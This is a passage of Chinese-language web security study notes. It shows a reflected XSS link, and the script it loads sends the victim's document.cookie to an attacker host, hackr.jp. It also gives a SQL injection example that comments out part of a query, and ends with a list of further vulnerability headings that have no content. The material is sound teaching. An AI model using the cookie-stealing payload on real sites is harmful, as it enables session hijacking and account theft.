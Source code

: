 - 窃取用户Cookie

  除了在表单处设下圈套，还可以窃取Cookie，注入下面的脚本

  ```
  [http://example.jp/login?ID=](http://example.jp/login?ID=)"<script src=http://hackr.jp/xss.js></script>
  ```

  

  ```html
  <script src=http://hackr.jp/xss.js></script>
  ```

  内容为：

  ```js
  var content = escape(document.cookie); 
  document.write("<img src=http://hackr.jp/?");
  document.write(content); document.write(">");
  ```

  可以在漏洞Web上执行该脚本，收集用户Cookie发送到攻击者的网站。

#### SQL Injection

SQL注入针对数据库

如果后端使用硬拼SQL的方式来传递参数，可能会有SQL漏洞

```sql
SELECT * FROM bookTbl WHERE author = '$q' and flag = 1;
# 通过传入 陈柄宏 # ' 来注入漏洞
SELECT * FROM bookTbl WHERE author = '陈柄宏' # ' and flag = 1;
```

#### OS Command Injection

OS命令注入针对操作系统的shell

#### HTTP首部注入

#### 邮件首部注入

#### 目录遍历

#### 远程文件包含漏洞

### BUG

因设置或设计上的缺陷引发的安全漏洞

#### 强制浏览

#### 不正确的错误消息处理

#### 开放重定向
